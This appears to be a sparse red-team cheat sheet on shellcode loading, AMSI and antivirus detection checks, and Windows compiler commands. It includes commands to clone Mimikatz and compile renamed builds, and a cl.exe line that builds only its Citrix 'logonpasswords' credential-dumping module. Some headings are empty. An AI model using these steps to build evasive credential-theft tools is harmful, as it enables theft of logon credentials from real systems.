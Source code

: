 # Shellcode

    What is Shellcode

    **What is AMSI/Dotnet (managed/unmanaged code)**
        The .NET Framework provides the Assembly.Load method which allows loading Common Object 
        File Format (COFF) images like such as DLL’s and EXE’s. Assembly.Load can be supplied 
        with a file path to load a DLL from disk, or with a byte array to load directly in memory.

    Threatcheck/AMSI Trigger

    ClamAV
        dotpeek/hexdump --canonical
        strings -n 5

Shelcode formats (shellcode formatter etc)

On Windows:

***csc.exe (CSharp/dotnet)***
---
```code
c:\windows\Microsoft.NET\Framework\v3.5\bin\csc.exe /t:exe /out:loader.exe loader.cs
csc.exe /t:exe /out:$utilName /unsafe $katzPath
```




***msbuild.exe (CSharp, C++)***
---
```code
msbuild buildapp.csproj -t:HelloWorld
msbuild mimidogz.sln /t:Build /p:Configuration=Release /p:Platform=x64
```

```code
@echo off
set msBuildExe="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
set solutionsFile="C:\TestProject\mySln.sln"
rem Build the solutions:  
%msBuildExe% /t:Build /p:Configuration=Release /p:Platform=x64 %solutionsFile%
```

***CL.exe (C)***
---
```code
Developer Prompt Visual Studio
cl.exe hello.c /out:hello.exe /exe

git clone https://github.com/gentilkiwi/mimikatz.git

cl.exe /Zi /I inc\ mimikatz\modules\misc\kuhl_m_misc_citrix.c modules\kull_m_kernel.c 
modules\kull_m_memory.c modules\kull_m_minidump.c modules\kull_m_output.c 
modules\kull_m_process.c modules\kull_m_string.c lib\x64\ntdll.min.lib 
/link kernel32.lib user32.lib advapi32.lib shell32.lib crypt32.lib rpcrt4.lib vcruntime.lib ucrt.lib 
/entry:kuhl_m_misc_citrix_logonpasswords 
/subsystem:console
```